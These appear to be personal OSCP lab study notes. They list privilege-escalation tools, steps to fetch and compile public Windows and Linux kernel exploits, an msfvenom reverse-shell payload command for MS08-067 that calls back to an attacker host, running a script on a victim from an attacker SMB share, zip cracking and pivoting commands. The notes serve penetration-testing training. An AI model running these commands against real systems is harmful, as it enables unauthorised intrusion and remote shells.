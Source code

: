 ```yaml
---
layout: post
title:  "OSCP Notes"
categories: OSCP
---
```


Collection of notes I took while doing the OSCP labs.

# Windows

## Post Exploitation and Privilege Escalation

* Helpful collection of priv esc methods: <https://guif.re/windowseop>

* File transfer methods: <https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/>

* Tools
    * [Powerless](https://github.com/M4ximuss/Powerless) (Privilege Escalation script working without Powershell)
    * [Windows Priv Esc Checker](https://github.com/pentestmonkey/windows-privesc-check)
    * [Windows Exploit Suggester NG](https://github.com/bitsadmin/wesng) (feed it `systeminfo` output and it finds matching exploits)
    * [BeRoot](https://github.com/AlessandroZ/BeRoot/tree/master/Windows)
    * [Pre-Compiled Windows Exploits](https://github.com/SecWiki/windows-kernel-exploits)
    * [Download and compile exploits automatically](https://github.com/wwong99/pentest-notes/blob/master/scripts/xploit_installer.py)
    * [Exploit Table](https://malrawr.com/04.windows/exploit-table/)

* From Admin to System on <= Windows XP:
    * check time with `time`
    * run `at 01:23 /interactive cmd.exe` one minute after what `time` said -> cmd.exe will popup (obviously you will need a RDP connection for this to work)

## Buffer Overflow

* Nice tutorial: <https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2016/june/writing-exploits-for-win32-systems-from-scratch/>

* Important:
    * run all apps as administrator (also Immunity Debugger)
    * use Python2 for exploit development

* Steps
    * TODO

## Exploits

* MS08-067:
    * grab exploit from <https://github.com/andyacer/ms08_067>
    * generate shellcode with `msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -a x86 --platform windows` and replace the one in the script with it
    * run it `python ms08_067_2018.py 10.11.1.x 1 445`

* MS11-046 (afd.sys):
    * grab exploit from <https://www.exploit-db.com/raw/40564>
    * compile with `i686-w64-mingw32-gcc 40564.c -o expl.exe -lws2_32`

# Linux

## Post Exploitation and Privilege Escalation

* Tools
    * [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

## MySQL
* Command line usage: `mysql -u root -p`
    * display available databases and tables `show databases;` or `show tables;`
    * use database `use <database>;`

## Exploits

* CVE-2009-2692, Linux Kernel 2.4.x/2.6.x sock_sendpage():
    * grab from <https://www.exploit-db.com/raw/9545>
    * compile with `gcc -m32 -Wl,--hash-style=both 9545.c -o 9545`

# Other

## General

* [AutoRecon](https://github.com/Tib3rius/AutoRecon): Super useful enumeration tool which takes away a lot of manual enumeration work. Just invoke it with e.g. `python3 autorecon.py <ip1> <ip2> -o <outputdir>` and let it run in the background.

## Cracking

* Crack a password protected ZIP file: `fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' protected.zip`

## SMB

* Nice SMB tips: <https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html>

* Execute directly via SMB (helpful if you can't write anything to disk):
    * setup an SMB server on your Kali box: `python /usr/share/doc/python-impacket/examples/smbserver.py SHARE .`
    * run `\\10.11.0.x\SHARE\Powerless.bat` on victim

* Important:
    * Never completely trust `enum4linux` since it misses a lot of stuff (version for example). Use this little bash script to grab the SMB version:

    ```bash
    #!/bin/sh 
    #Author: rewardone 
    #Description: 
    # Requires root or enough permissions to use tcpdump 
    # Will listen for the first 7 packets of a null login 
    # and grab the SMB Version 
    #Notes: 
    # Will sometimes not capture or will print multiple 
    # lines. May need to run a second time for success. 

    if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi 

    if [ ! -z $2 ]; then rport=$2; else rport=139; fi 

    tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " & 

    echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null 

    echo "" && sleep .1 
    ```

    * Alternatives to enum4linux: smbmap, nullinux, NSE scripts (invoke with `nmap -sV -p 139,445 --script='smb-vuln*' --script-args="unsafe=1" <IP address>`)

## Pivoting

* Collection of pivoting methods: <https://sushant747.gitbooks.io/total-oscp-guide/port_forwarding_and_tunneling.html>

* sshuttle usage: `sshuttle -r user@10.11.1.x 10.1.1.0/24`
* alternative: dynamic port forwarding with ssh `ssh -D 9050 user@10.11.1.x`, then use proxychains `proxychains nmap -v --top-ports=20 -sT -Pn 10.1.1.x`
